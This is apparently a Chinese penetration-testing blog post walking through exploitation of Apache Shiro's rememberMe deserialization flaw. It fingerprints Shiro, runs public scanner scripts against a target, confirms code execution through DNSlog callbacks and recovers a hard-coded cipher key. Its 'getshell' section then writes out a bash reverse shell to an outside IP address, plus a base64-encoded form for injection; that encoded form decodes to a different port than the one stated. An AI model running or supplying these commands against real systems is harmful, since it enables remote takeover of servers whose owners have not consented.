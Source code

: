 <h1>更新中...</h1>

# 二：验证
在上面的简述中，可以来进行shiro框架的判断漏洞特征：

 - 1.在返回包的Set-Cookie的值为「rememberMe=deleteMe」；
 - 2.JESSession Cookie.实际渗透中如果遇到可以尝试加入rememberMe Cookie探测是否使用shiro框架；
 - 3.特定CMS集成shiro框架；
    - 1）jeesite
    - 2）iBase4J
    - 等等

 
同时，我们可以进一步对shiro框架是否存在反序列化来进行验证：
用到的是[Shiroscan by 斯文](http://www.svenbeast.com/post/tskRKJIPg/){:target="_blank"}脚本，开源在github上，用法就不多赘述。
```bash
python3 shiro_rce.py https://shiro.vuln.ip/login.html "ping x.dnslog.cn"
 ____  _     _          ____                  
/ ___|| |__ (_)_ __ ___/ ___|  ___ __ _ _ __  
\___ \| '_ \| | '__/ _ \___ \ / __/ _` | '_ \ 
 ___) | | | | | | | (_) |__) | (_| (_| | | | |
|____/|_| |_|_|_|  \___/____/ \___\__,_|_| |_|

                           By 斯文

Welcome To Shiro反序列化 RCE ! 
[*]  开始检测模块 Class1:CommonsBeanutils1
```
然后脚本开始对不同的秘钥进行生成cookie，尝试让机器执行命令。等待脚本在跑的时候或者跑完，看一下dnslog上的dns记录，如果存在记录如下所示，那么就说明存在反序列化漏洞使得机器执行了任意代码，反之则无：
```bash
x.dnslog.cn    shiro.vuln.ip 2020-07-02 16:46:35
x.dnslog.cn    shiro.vuln.ip 2020-07-02 16:45:52
x.dnslog.cn    shiro.vuln.ip 2020-07-02 16:45:52
x.dnslog.cn    shiro.vuln.ip 2020-07-02 16:45:52
```
当然有的时候用shiroScan扫结束后并没有记录，即不存在漏洞；但是像我，又不死心，于是又在网上折腾找了另外一个能够跑秘钥的探测脚本-_-
[作者博客](https://www.bacde.me/post/Apache-Shiro-Deserialize-Vulnerability/){:target="_blank"}
```bash
python shiro_exp.py https://shiro.vuln.ip/login.html
try CipherKey :4AvVhmFLUs0KTA3Kprsdag==
generator payload done.
send payload ok.
checking.....
checking.....
checking.....
checking.....
vulnerable:true url:https://shiro.vuln.ip/login.html    CipherKey:3AvVhmFLUs0KTA3Kprsdag==
```
当然秘钥对于我们理解shiro反序列化框架也有一定的帮助，shiro的反序列化最初的漏洞来源也是因为秘钥硬编码。

## 2x01：getshell
通过上面的步骤我们就可以对shiro反序列化做一个判定，肯定是存在RCE漏洞，那么来实现我们的最终目的，GET-shell一般反弹shell的执行代码`bash -i >& /dev/tcp/47.52.233.92/11111 0>&1`，首先需要把代码进行base64编码，只有经过base64编码后shiro才认得这个命令，通过shiro自己本身的base64解码最终达到执行命令的目的；
转成base64编码->`bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny41Mi4yMzMuOTIvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}`；
